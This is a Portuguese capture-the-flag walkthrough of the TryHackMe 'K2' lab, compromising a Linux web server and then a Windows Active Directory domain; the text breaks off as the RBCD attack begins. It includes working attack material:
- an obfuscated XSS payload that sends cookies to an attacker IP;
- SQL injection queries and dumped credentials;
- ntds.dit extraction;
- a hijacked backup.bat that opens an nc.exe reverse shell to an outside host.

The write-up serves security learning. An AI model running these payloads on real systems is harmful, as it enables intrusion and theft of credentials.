

> [!Informações]
> - O IP da máquina foi adicionado ao `/etc/hosts` com a URL `http://k2.thm`
> - Período: 28/05/2025 á 02/06/2025 (Parte I & II) | 27/06/2025 à 30/06/2025 (Parte III)
> - Máquina do `TryHackMe` de Nível Difícil
> - Sistema Operacional: Linux & Windows

# Sumário
1. [[#Parte 1 (Base Camp)]]
	1. [[#1. Reconhecimento]]
		1. [[#1.1 Burp-Suite Andando Pela aplicação]]
	2. [[#2. Enumeração]]
		1. [[#2.1 NMap Hora de procurar por portas abertas]]
		2. [[#2.2 Gobuster Enumerando diretórios]]
		3. [[#2.3 `FFUF` Encontrando Sub-diretórios]]
		4. [[#2.4 `IT Ticket` & `Admin Ticket`]]
			1. [[#2.4.1 `IT Ticket`]]
				1. [[#2.4.1.1 Como eu cheguei nesse raciocínio?]]
				2. [[#2.4.1.2 Payload de Roubo de Cookies]]
				3. [[#2.4.1.3 `Bypassando`o WAF]]
			2. [[#2.4.2 `Admin Ticket`]]
	3. [[#3. Exploração]]
		1. [[#3.1 `SQL Injection` Vulnerabilidade encontrada no sub-domínio `admin`]]
	4. [[#4. Pós-Exploração]]
		1. [[#4.1 Meu nome é Bond, `James`Bond Hora de aumentar os privilégios]]
			1. [[#4.1.1 Hora de varrer a máquina]]
				1. [[#4.1.2.1 `LinPEAS Linux Privilege Escalation Awesome Script`]]
	5. [[#5. Escalação de Privilégios]]
	6. [[#6. Etapa Adicional]]   
   
2. [[#Parte 2 (Middle Camp)]]
	1. [[#1. Enumeração no Windows]]
		1. [[#1.1 NMap Descobrindo portas]]
		2. [[#1.2 De volta para o passado]]
		3. [[#1.3 `Username Anarchy` Gerando nome de usuários a partir de nomes capturados]]
		4. [[#1.4 `Kerbrute` Ferramenta para força bruta rápida e enumeração de contas válidas]]
			1. [[#1.4.1 Enumerando Contas válidas no AD]]
			2. [[#1.4.2 `Brute Force` nos usuários encontrados]]
		5. [[#1.5 `NetExec`]]
			1. [[#1.5.1 Enumerando os diretórios SMB]]
			2. [[#1.5.2 Verificando se há existência de RDP]]
			3. [[#1.5.3 Consigo entrar no DC?]]
	2. [[#2. Exploração no Ambiente Windows]]
		1. [[#2.1 `Evil-WinRM` Acessando a usuário `r.bud`]]
		2. [[#2.2 `James`, eu quero uma salada de fruta]]
			1. [[#2.2.1 `BloodHound` Mapeando o AD]]
			2. [[#2.3 Movimentação Lateral Acessando o usuário `j.smith`]]
	3. [[#3. Pós-Exploração no Windows]]
		1. [[#3.1 Entendendo como funcionará o exploit]]
		2. [[#3.2 Usando o exploit para obter informações confidenciais]]
		3. [[#3.3 Obtendo Hash do Administrador]]
	4. [[#4. Extra]]
		1. [[#4.1 Tentativa de obter senha do "Administrator"]]
   
3. [[#Parte 3 (The Summit)]]
	1. [[#1. NMap Portas e mais portas]]
	2. [[#2. Descobrindo meios de entrar no sistema]]
		1. [[#2.1 Usando novamente o Kerbrute]]
		2. [[#2.2 `Brute force` via SMB]]
	3. [[#3. Acesso ao sistema com `Evil-WinRM`]]
		1. [[#3.1 "backup.bat"...]]
			1. [[#3.1.1 Verificando Permissões]]
			2. [[#3.1.2 Abusando de Permissões]]
	4. [[#4. Conhecendo um novo usuário `o.armstrong`]]
		1. [[#4.1 Método 1 Obtendo a Hash do Usuário]]
		2. [[#4.2 Método 2 Obtendo a Reverse Shell]]
	5. [[#5. BloodHound Analisando grupos do "o.armstrong"]]
	6. [[#6. Explorando `GenericWrite`no DC via Resource-Based Constrained Delegation (RBCD)]]
		1. [[#6.1 Como que funciona?]]
		2. [[#6.2 Realizando o Ataque]]
			1. [[#6.2.1 Criando um objeto de computador no domínio]]
			2. [[#6.2.2 Configurando o campo `ms-DS-AllowedToActOnBehalfOfOtherIdentity` no DC]]
			3. [[#6.2.3 Descobrindo SPN (Service Principal Name) no alvo.]]
			4. [[#6.2.4 Obtendo Ticket personificado]]
			5. [[#6.2.5 Obtendo acesso ao sistema]]
				1. [[#6.2.5.1 Uso do `secretsdump` para extração de credenciais]]
				2. [[#6.2.5.2 Alternativo Uso do `psexec` para obtenção de shell remota]]
	7. [[#7. Acima do `Administrator`, mas ninguém]]
---
# Parte 1 (Base Camp)

## 1. Reconhecimento

### 1.1 Burp-Suite: Andando Pela aplicação

Primeiramente, foi feita uma análise superficial sobre a aplicação. O intuito principal foi tentar achar algum diretório exposto ou algo relacionado, mas não foi encontrado nada relevante inicialmente.


Com a ajuda do `Wappalyzer`, consegui identificar alguns serviços que a aplicação está usando, mas, de imediato, não imagino o que eu poderia tentar. O objetivo agora é seguir para as próximas etapas a fim de identificar mais algumas coisas.


---

## 2. Enumeração
### 2.1 NMap: Hora de procurar por portas abertas

Apenas as portas 22 (SSH) e 80 (HTTP) se mostraram abertas, tornando a análise mais difícil para encontrar um ponto de partida.


### 2.2 Gobuster: Enumerando diretórios
Hora de tentar procurar por diretórios e arquivos por meio de uma ferramenta que realiza esses testes de forma automatizada.


As coisas começaram a ficar um pouco complicadas, devido à ausência de diretórios (anexo acima) ou arquivos (anexo abaixo) que eu pudesse explorar ou vasculhar em busca de outras informações.

### 2.3 `FFUF`: Encontrando Sub-diretórios

As coisas estavam ficando difíceis, porém foi considerado procurar por subdiretórios, pelo fato de a aplicação estar muito “pobre” no quesito de conteúdo.

`ffuf -w /home/arthur-strelow/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://k2.thm/ -H "Host: FUZZ.k2.thm" -fs 13229`


### 2.4 `IT Ticket` & `Admin Ticket`
#### 2.4.1 `IT Ticket`

Na página principal, a aplicação solicita nossas credenciais. Além disso, há um link para que possamos nos cadastrar no site. Ao realizar o cadastro, somos redirecionados para a `/dashboard`, onde, aparentemente, enviamos um ticket.


Então, para testar a aplicação, enviarei um ticket para analisar o retorno.  
`Ticket submitted successfully! It will be reviewed shortly!`  
A primeira coisa que imaginei foi em um ataque de roubo de cookies dos administradores.

##### 2.4.1.1 Como eu cheguei nesse raciocínio?
Como a aplicação é baseada em tickets, haverá um momento em que algum usuário com permissões elevadas precisará abrir o ticket que eu enviarei. É nesse momento que a payload é injetada e, assim que eu obtiver os cookies do administrador, poderei realizar uma movimentação de usuário comum para um usuário com permissões elevadas.

##### 2.4.1.2 Payload de Roubo de Cookies
Então, montei a payload básica para realizar esse roubo.
`<script>new Image().src="http://10.13.72.32:80/"+document.cookie</script>`


Me deparei com um `WAF`, o que me surpreendeu e me fez dar dois passos para trás para analisar a aplicação e tentar chegar a uma payload suficientemente ofuscada para `bypassar` o `WAF`.

##### 2.4.1.3 `Bypassando`o WAF
Foram feitas várias tentativas de envio de payloads com ofuscamento, porém o WAF sempre detectava alguma delas ou a injeção não tinha sucesso.

Até que eu encontrei
```
<script>
  var s = String.fromCharCode(100,111,99,117,109,101,110,116,46,99,111,111,107,105,101);
  new Image().src='http://10.13.72.32/'+eval(s);
</script>
```

`var s = String.fromCharCode(...)` -> Essa função está convertendo valores ASCII em caracteres de string

Representação dos números
```
100 = d
111 = o
99  = c
117 = u
109 = m
101 = e
110 = n
116 = t
46  = .
99  = c
111 = o
111 = o
107 = k
105 = i
101 = e
```

Resultando: `s = "document.cookie"`

Com o funcionamento da payload, consigo capturar as requisições e enviá-las para o meu servidor em Python, que foi iniciado.


Fiz algumas tentativas de passar esses cookies no subdomínio `it`, mas então lembrei que existe o outro subdomínio, `admin`.


A lógica foi a seguinte: como o domínio `it` possui a página `/dashboard`, imaginei que o subdomínio `admin` também teria. Adicionei o cookie da sessão capturada e consegui efetuar o login.
#### 2.4.2 `Admin Ticket`

Uma vez autenticado na página administrativa, é hora de iniciar a análise.

> [!Usuários descobertos]
> smokey - hazel - paco


> [!Isso é importante?]
> Número da jenny: 8675309


Analisando a requisição feita na `dashboard` administrativa, tentei passar algumas payloads de XSS, LFI e RCE, mas todas sem êxito. Fiz algumas tentativas de SQLi também, porém o WAF estava bloqueando praticamente todas as solicitações — até que testei uma payload bem simples e, voilà, vulnerabilidade encontrada.


---

## 3. Exploração
### 3.1 `SQL Injection`: Vulnerabilidade encontrada no sub-domínio `admin`

Agora é hora de analisar o banco e iniciar a enumeração das tabelas para encontrar credenciais de usuários.


`title=help' UNION SELECT version(), null, null-- -`


`title=help' UNION SELECT database(), null, null-- -`


`title=help' UNION SELECT table_name, null, null FROM information_schema.tables WHERE table_schema=database()-- -`


`title=help' UNION SELECT column_name, null, null FROM information_schema.columns WHERE table_name='admin_auth'-- -`


`title=help' UNION SELECT admin_username, admin_password, email FROM admin_auth-- -`


> [!NOTE]
> Tabela de Credenciais administrativas

| Usuário | Senha            | E-mail                              |
| ------- | ---------------- | ----------------------------------- |
| james   | Pwd@9tLNrC3!     | [james@k2.thm](mailto:james@k2.thm) |
| rose    | VrMAogdfxW!9     | [rose@k2.thm](mailto:rose@k2.thm)   |
| bob     | PasSW0Rd321      | [bob@k2.thm](mailto:bob@k2.thm)     |
| steve   | St3veRoxx32      | [steve@k2.thm](mailto:steve@k2.thm) |
| cait    | PartyAlLDaY!32   | [cait@k2.thm](mailto:cait@k2.thm)   |
| xu      | L0v3MyDog!3!     | [xu@k2.thm](mailto:xu@k2.thm)       |
| ash     | PikAchu!IshoesU! | [ash@k2.thm](mailto:ash@k2.thm)     |

Ao testar as credenciais, verifiquei se havia alguma conexão possível via SSH.


---

## 4. Pós-Exploração
### 4.1 Meu nome é Bond, `James`Bond: Hora de aumentar os privilégios


Agora é hora de procurar maneiras e vetores para tentar aumentar os privilégios desse usuário, buscar novos usuários e obter mais informações confidenciais.

#### 4.1.1 Hora de varrer a máquina

> [!Credenciais do Banco e Secret Key da aplicação (admin_site)]
> app = Flask(__name__)
> app.config.update(
>         SECRET_KEY=b'4B#3gA!cS!ENDA',
>         SESSION_COOKIE_HTTPONLY=True
>         )
> app.config['MYSQL_HOST'] = 'localhost'
> app.config['MYSQL_USER'] = 'james'
> app.config['MYSQL_PASSWORD'] = 'jGXfA4I!Qtkvpx'
> app.config['MYSQL_DB'] = 'ticketsite'
> mysql = MySQL(app)

> [!Secret key da aplicação (ticket_site)]
> app.config.update(
>         SECRET_KEY=b'4b#3gA!CsYENDD',
>         SESSION_COOKIE_HTTPONLY=False
>         )

##### 4.1.2.1 `LinPEAS: Linux Privilege Escalation Awesome Script`


Opa, Estamos no grupo dos Admin?


Certo. Isso significa que podermos entrar nos logs e procurar por algum log que tenha alguma senha exposta.

`cd /var/log ; grep -Ri "pass"`


> [!Credencial da usuário "rose"?]
> username=rose&password=RdzQ7MSKt)fNaz3!

---
## 5. Escalação de Privilégios
Essa etapa foi até que bem rápida. Pelo fato de que eu imaginaria que terei que acessar o usuário rose e fazer a escalação de privilégios, mas o usuário "root" estava reciclando a senha também.


"THM{c6f684e3b1089cd75f205f93de9fe93d}"

---

## 6. Etapa Adicional
Tem dois métodos de descobrir a senha da Rose
1. Através do `/etc/shadow` e daí teria que fazer a quebra de senha (Método Comum)
2. Verificar se há algum registro no `.bash_history` que foi o caso utilizado (Menos comum)

Encontramos uma tentativa da senha da rose, mas parece que ela acabou errando a senha


> [!Credencial da "rose"]
> VrMAogdfxW!9 -> Senha encontrada no Banco
> vRMkaVgdfxhW!8 -> senha encontrada no `.bash_history` (foi removido as duas letras do inicio "su")


---

# Parte 2 (Middle Camp)

## 1. Enumeração no Windows
### 1.1 NMap: Descobrindo portas

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-29 13:48:15Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: k2.thm0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: k2.thm0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: K2
|   NetBIOS_Domain_Name: K2
|   NetBIOS_Computer_Name: K2SERVER
|   DNS_Domain_Name: k2.thm
|   DNS_Computer_Name: K2Server.k2.thm
|   DNS_Tree_Name: k2.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2025-05-29T13:49:21+00:00
|_ssl-date: 2025-05-29T13:49:59+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=K2Server.k2.thm
| Not valid before: 2025-05-28T13:14:42
|_Not valid after:  2025-11-27T13:14:42
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49813/tcp open  msrpc         Microsoft Windows RPC
```

Um ponto relevante da enumeração é a identificação da porta 88 (kerberos-sec), que sugere a presença de um serviço Kerberos típico de um ambiente com Active Directory. Isso indica que possivelmente estamos diante de um **controlador de domínio**, que é o servidor responsável por centralizar a autenticação, gerenciamento de usuários, permissões e políticas de segurança em uma rede Windows. 
Além disso, foi possível identificar o nome do domínio `k2.thm` e o FQDN (Fully Qualified Domain Name) `K2Server.k2.thm`, que representa o nome completo da máquina dentro da estrutura do domínio. 
O FQDN é composto pelo nome do host (neste caso, `K2Server`) seguido pelo nome do domínio (`k2.thm`), sendo uma informação essencial para ataques que dependem de autenticação Kerberos, como Kerberoasting ou Pass-the-Ticket, além de facilitar a resolução de nomes em ambientes de rede internos.

### 1.2 De volta para o passado

Durante a enumeração no ambiente Linux, identificamos dois usuários locais, juntamente com seus nomes completos:
- `James Bold`
- `Rose Bude`

Esse tipo de informação é extremamente útil, pois muitas organizações seguem **padrões previsíveis de nomenclatura** ao criar `usernames` para seus colaboradores. Com base nos nomes identificados, podemos gerar possíveis combinações de usuários, como:

- `{primeiro}{último}` → `jamesbold`, `rosebude`
- `{primeira letra do primeiro nome}{último}` → `jbold`, `rbude`
- `{primeiro nome}{primeira letra do último}` → `jamesb`, `roseb`

Essas variações servem como ponto de partida para ataques de `brute-force`, `password spraying` ou tentativas de enumeração em serviços como SSH, SMB ou Kerberos. Ter os nomes completos dos usuários nos coloca um passo à frente para escalar o acesso no ambiente.
.
.

### 1.3 `Username Anarchy` : Gerando nome de usuários a partir de nomes capturados

`./username-anarchy Rose Bud >> ../users.txt && ./username-anarchy James Bold >> ../users.txt`

Com uma lista de possíveis de nomes de usuários, temos um ponto de partida. E com essa lista podemos verificar se algum é válido e usarei o kerbrute

### 1.4 `Kerbrute`: Ferramenta para força bruta rápida e enumeração de contas válidas
#### 1.4.1 Enumerando Contas válidas no AD


#### 1.4.2 `Brute Force` nos usuários encontrados
Antes de tentar várias `wordlist` de senha, vamos montar um arquivo com um arquivo com as senhas, anteriormente, capturadas para verificar se há uma possibilidade de uma reciclagem de senhas.


> [!Credencial encontrada]
> 2025/05/30 15:31:54 >  [+] VALID LOGIN:	 r.bud@k2.thm:vRMkaVgdfxhW!8

### 1.5 `NetExec`
#### 1.5.1 Enumerando os diretórios SMB
`netexec smb K2Server.k2.thm -u r.bud -p 'vRMkaVgdfxhW!8' --shares`


#### 1.5.2 Verificando se há existência de RDP


#### 1.5.3 Consigo entrar no DC?

A resposta é: **SIM!**
## 2. Exploração no Ambiente Windows
### 2.1 `Evil-WinRM`: Acessando a usuário `r.bud`


Primeiro arquivo que acabei encontrando que diz o seguinte:
```
Feito:
1. A nota foi enviada e James já executou a ação necessária. Eles me informaram que mantiveram a senha base igual, apenas adicionaram mais dois caracteres para atender aos critérios. É mais fácil para James lembrar dessa forma.

2. A senha de James atende aos critérios.

Pendente:
1. Conceda acesso remoto a James.
```

E também encontrei outra nota que diz o seguinte (já traduzido)
```
Olá, James:

Descobriu-se que sua senha "rockyou" contém apenas caracteres alfabéticos. Eu removi seu acesso remoto por enquanto.

No mínimo, siga a nova política de senha:
1. O comprimento da senha deve ter entre 6 e 12 caracteres
2. Deve incluir pelo menos 1 caractere especial
3. Deve incluir pelo menos 1 número entre 0-999
```

A senha do usuário **James** provavelmente exigirá um ataque de força bruta baseado em na senha base "rockyou". A estratégia consiste em utilizar essa senha base e realizar combinações adicionando **um caractere especial** e **um número entre 0 e 999**, simulando padrões comuns de senhas corporativas.

						Script que gerará as senhas
```
import itertools

# Define the base password
base_password = "rockyou"

# Define the range of numbers and special characters to be added
numbers = '0123456789'
special_chars = '!@#$%^&*'

# Generate all combinations of numbers and special characters
combinations = list(itertools.product(numbers, special_chars))

# Generate all possibilities by adding the number and special character before or after the base password
passwords = []

for num, special in combinations:
    # Add number and special character before the base password
    passwords.append(f"{num}{special}{base_password}")
    passwords.append(f"{special}{num}{base_password}")
    
    # Add number and special character after the base password
    passwords.append(f"{base_password}{num}{special}")
    passwords.append(f"{base_password}{special}{num}")

# Print out all generated passwords
for password in passwords:
    print(password)
```

### 2.2 `James`, eu quero uma salada de fruta
Ao repetir os procedimentos descritos na seção _1.4.2_, foi possível obter com sucesso as credenciais do usuário James.

> [!Credencial do James]
> 2025/05/31 11:50:45 > [+] VALID LOGIN: [j.bold@k2.thm](mailto:r.bud@k2.thm):#8rockyou

#### 2.2.1 `BloodHound`: Mapeando o AD

`python3 bloodhound.py -u j.bold -p '#8rockyou' -d k2.thm -v --zip -c All -dc K2Server.k2.thm -ns 10.10.173.111`

Observamos que o usuário `j.bold` é membro do grupo `IT Staff 1`, o qual possui controle total (`GenericAll`) sobre o usuário `j.smith`. Isso implica que `j.bold`, por herança de permissões, pode exercer controle completo sobre `j.smith`, incluindo ações como alteração de senha, modificação de atributos e associação a outros grupos.


Com essa informação valiosa, podemos alterar a senha do usuário `j.smith` e, consequentemente, obter acesso à sua conta.

`net rpc password "j.smith" "password123@" -U "k2.thm"/"j.bold"%"#8rockyou" -S 10.10.173.111`

### 2.3 Movimentação Lateral: Acessando o usuário `j.smith`

Após a alteração da senha, o acesso ao usuário `j.smith` foi obtido por meio do serviço WinRM (Windows Remote Management), permitindo interação remota com o sistema.


Durante a análise do `whoami /all`, identifiquei dois privilégios incomuns que podem servir como vetores interessantes para exploração.


---

## 3. Pós-Exploração no Windows

> [!Privilégios Vulneráveis]
> SeBackupPrivilege             Back up files and directories  Enabled
> SeRestorePrivilege            Restore files and directories  Enabled

Durante a pesquisa por métodos de coleta de arquivos sensíveis no sistema, identifiquei uma técnica que permite a extração do arquivo `ntds.dit`. Além disso, encontrei um script que pode ser utilizado como ponto de partida para iniciar o processo de escalonamento de privilégios.

### 3.1 Entendendo como funcionará o exploit

```
set context persistent nowriters
add volume c: alias priv
create
expose %priv% z:
```

O script será utilizado com o utilitário `diskshadow`, uma ferramenta nativa do Windows que permite a criação de cópias sombra (Shadow Copies) de volumes do sistema. Nesse caso, o objetivo é gerar um backup da unidade `C:` e mapeá-lo para a unidade `Z:`. Isso possibilita o acesso a arquivos protegidos pelo sistema, como o `ntds.dit` e o `SYSTEM`, sem a necessidade de bloqueá-los diretamente em tempo de execução.


Agora, uma etapa fundamental é tornar o script compatível com o Windows. Para isso, utilizamos o comando ==unix2dos priv.dsh== a fim de converter os finais de linha do formato Unix (LF) para o formato Windows (CRLF), garantindo que o `diskshadow` consiga interpretá-lo corretamente.

### 3.2 Usando o exploit para obter informações confidenciais

```
mkdir C:\Temp  
cd C:\Temp  
diskshadow /s C:\Users\j.smith\Documents\priv.dsh  
robocopy /b z:\windows\ntds . ntds.dit  
reg save hklm\system C:\Temp\System
```


Neste momento, basta realizar o download dos arquivos `ntds.dit` e `SYSTEM` para a máquina local, a fim de prosseguir com a extração das credenciais.

### 3.3 Obtendo Hash do Administrador
`impacket-secretsdump -system System -ntds ntds.dit local`


# 4. Extra

## 4.1 Tentativa de obter senha do "Administrator"
Para ir além da pós exploração a fim de obter mais informações a fim de compromete-la inteiramente. podermos tentar obter a senha do administrator em texto simples.

`netexec smb K2Server.k2.thm -u administrator -H '9545b61858c043477c350ae86c37b32f' --dpapi

---

# Parte 3 (The Summit)

## 1. NMap: Portas e mais portas

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-02 18:06:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: K2
|   NetBIOS_Domain_Name: K2
|   NetBIOS_Computer_Name: K2ROOTDC
|   DNS_Domain_Name: k2.thm
|   DNS_Computer_Name: K2RootDC.k2.thm (Informação Importante)
|   DNS_Tree_Name: k2.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2025-06-02T18:07:32+00:00
|_ssl-date: 2025-06-02T18:08:10+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=K2RootDC.k2.thm
| Not valid before: 2025-06-01T17:49:20
|_Not valid after:  2025-12-01T17:49:20
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49796/tcp open  msrpc         Microsoft Windows RPC
```

# 2. Descobrindo meios de entrar no sistema

## 2.1 Usando novamente o Kerbrute
Essa parte é fundamental, pois é o pontapé inicial na rede para que possamos descobrir meios de entrar no sistema.


Após descobrir o usuário `"j.smith"`, percebi que algumas informações estavam sendo reutilizadas. Com isso, decidi testar todas as senhas que já haviam sido utilizadas anteriormente — inclusive a hash do Administrador, já que não consegui obter sua senha em texto claro.


No entanto, após várias tentativas sem sucesso, comecei a refletir sobre quais outras abordagens ou combinações poderiam funcionar para esse usuário.

## 2.2 `Brute force` via SMB

E olha que interessante: primeiro rodei o `netexec` para fazer um brute-force no usuário `"j.smith"` e me lembrei que o sistema diferencia senha de hash (obviamente). Então, peguei a hash e tentei passá-la pelo parâmetro `-H` — e voilà, conseguimos acesso!


# 3. Acesso ao sistema com `Evil-WinRM`


## 3.1 "backup.bat"...

Tentei executar o BloodHound, mas como não temos a senha do usuário e ele não aceita autenticação via hash, não foi possível prosseguir com ele nesse momento. Diante disso, comecei a vasculhar os diretórios padrão em busca de arquivos úteis — e foi assim que encontrei um **arquivo de backup em formato `.txt`**, no qual identifiquei a existência de um usuário chamado **`o.armstrong`**.


### 3.1.1 Verificando Permissões
```
*Evil-WinRM* PS C:\Scripts> icacls backup.bat
backup.bat NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Administrators:(I)(F)
           BUILTIN\Users:(I)(RX)
           K2\o.armstrong:(I)(F)
```

As contas **NT AUTHORITY\SYSTEM**, **Administrators** e **o.armstrong** possuem **controle total (F)** sobre o arquivo.  
Os demais usuários possuem apenas **permissão de leitura e execução (RX – Read & Execute)**.  
Todas essas permissões foram **herdadas de um diretório pai**, como indicado pelo atributo `(I)`.

Certo, sobre o arquivo não tenho permissão para muita coisa, mas pensando de forma diferente, e SE tivermos alguma permissão no diretório?

```
*Evil-WinRM* PS C:\Scripts> icacls C:\Scripts
C:\Scripts K2\j.smith:(F)
           K2\o.armstrong:(F)
           NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
           BUILTIN\Administrators:(I)(OI)(CI)(F)
           BUILTIN\Users:(I)(OI)(CI)(RX)
           BUILTIN\Users:(I)(CI)(AD)
           BUILTIN\Users:(I)(CI)(WD)
           CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

## 3.1.2 Abusando de Permissões

**Temos permissão no diretório**, então foi possível realizar as seguintes ações:

1. Renomeei o script original para mantê-lo como backup:
    `mv backup.bat backup.bat.bkp`
2. Em seguida, criei um novo `backup.bat` com a seguinte linha de comando:
    `copy C:\Users\o.armstrong\Desktop\notes.txt C:\Users\j.smith\Documents\backup_notes.txt`
3. Por fim, executei o script usando PowerShell:
    `Start-Process "backup.bat"`


```
*Evil-WinRM* PS C:\Scripts> dir
    Directory: C:\Scripts
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/30/2023   1:32 AM             92 backup.bat


*Evil-WinRM* PS C:\Scripts> mv backup.bat backup.bat.bkp


*Evil-WinRM* PS C:\Scripts> echo "copy C:\Users\o.armstrong\Desktop\notes.txt C:\Users\o.armstrong\Documents\backup_notes.txt" > backup.bat


*Evil-WinRM* PS C:\Scripts> Start-Process "backup.bat"


*Evil-WinRM* PS C:\Scripts> dir
	Directory: C:\Scripts
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/27/2025   5:44 PM             65 backup.bat
-a----        5/30/2023   1:32 AM             92 backup.bat.bkp
-a----        5/30/2023   1:35 AM            136 notes.txt


*Evil-WinRM* PS C:\Scripts> type notes.txt
Things to check:


1. Check on the IT Website hosted on the Linux Server. Is it vulnerable?
2. Enforce the password policy on everyone!
```

Hmmm, se é o usuário **`o.armstrong`** que está executando esse arquivo, isso significa que podemos obter uma shell com os **privilégios dele**, bastando colocar um payload no `backup.bat` e aguardar ou forçar a execução.

# 4. Conhecendo um novo usuário: `o.armstrong`

Existem duas formas de obter uma shell com o usuário `o.armstrong`. A primeira é rodar um **servidor SMB** e forçar o script a fazer uma requisição a esse servidor, capturando assim a **hash NTLM** da conta dele para posterior quebra offline.

A segunda forma é criar um **executável malicioso** que, ao ser executado pelo script, inicie uma **reverse shell**, concedendo acesso direto à sessão do `o.armstrong`.

Vamos explorar ambos os contextos para demonstrar como essas abordagens funcionam na prática.
## 4.1 Método 1: Obtendo a Hash do Usuário

Primeiro inicie o Responder
`sudo python3 Responder.py -I tun0`

```
*Evil-WinRM* PS C:\Scripts> Set-Content -Path "backup.bat" -Value "@echo off`r`nnet use \\10.11.85.218\share >nul 2>&1" -Encoding UTF8


*Evil-WinRM* PS C:\Scripts> Start-Process "backup.bat"
```


Pegamos toda a **hash NTLM**, salvamos em um arquivo e utilizamos o **Hashcat** com a wordlist **rockyou.txt** para tentar quebrar a senha. Após algum tempo de execução, tivemos sucesso e obtivemos a senha em texto claro.


> [!Credencial do o.armstrong]
> arMStronG08

## 4.2 Método 2: Obtendo a Reverse Shell
Como é o usuário **`o.armstrong`** quem executa o `backup.bat`, não é qualquer executável que funcionará — precisamos criar uma forma de estabelecer uma **conexão reversa**.  
Uma das abordagens mais simples é utilizar um **binário do Netcat compilado para Windows**, salvá-lo no sistema e, em seguida, adicionar ao `backup.bat` um **comando em PowerShell** que localize esse binário e o execute para iniciar a shell reversa.

```
*Evil-WinRM* PS C:\Scripts> del backup.bat

*Evil-WinRM* PS C:\Scripts> Set-Content -Path "C:\Scripts\backup.bat" -Value "C:\Windows\System32\Tasks\nc.exe 10.11.85.218 443 -e powershell"

*Evil-WinRM* PS C:\Scripts> type backup.bat

C:\Windows\System32\Tasks\nc.exe 10.11.72.22 443 -e powershell
```

Após algum tempo, recebemos a shell como `'o.armstrong'` nosso listener

```
$ rlwrap nc -lvnp 443
Listening on 0.0.0.0 444
Connection received on 10.10.126.150 50291
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.


PS C:\Windows\system32> whoami
k2\o.armstrong
```

# 5. BloodHound: Analisando grupos do "o.armstrong"

Enquanto vasculhava o sistema, acabei encontrando a primeira flag no Desktop. No entanto, de forma geral, não encontrei nada de muito relevante inicialmente. Foi então que decidi executar o **BloodHound** para obter uma visão mais ampla do ambiente.

Usei o seguinte comando:
`python3 bloodhound.py -ns 10.10.126.150 --dns-tcp -d K2.thm -u 'o.armstrong' -p 'arMStronG08' -c All --zip`

O objetivo era montar um panorama completo do domínio, principalmente porque ao executar o comando `whoami /all`, observei que o usuário `o.armstrong` pertence ao grupo **`IT Director`**, o que me levou a investigar mais a fundo possíveis permissões e caminhos de escalonamento.


> Essa informação é crucial, pois o grupo ao qual o usuário pertence possui a permissão **`GenericWrite`** sobre o **Domain Controller**. Isso abre um vetor direto de **escalonamento de privilégios no domínio**, permitindo a modificação de atributos sensíveis no objeto da máquina controladora — como a adição de um SPN, essencial para ataques como **Resource-Based Constrained Delegation (RBCD)**.

# 6. Explorando `GenericWrite`no DC via Resource-Based Constrained Delegation (RBCD)

## 6.1 Como que funciona?
No Active Directory, **RBCD** permite que **um computador A (controlado por você)** possa se **"delegar" a agir em nome de um usuário** (por exemplo, o administrator) **ao se autenticar em um serviço hospedado no computador B** (o alvo).

Ou seja:

> Se você conseguir modificar o objeto do computador B (ex: o DC), você pode dizer ao AD:  
> **"O computador A tem permissão para se autenticar aqui como qualquer usuário do domínio".**

E isso é **exatamente o que `GenericWrite` no objeto do DC permite.**

## 6.2 Realizando o Ataque

### 6.2.1 Criando um objeto de computador no domínio

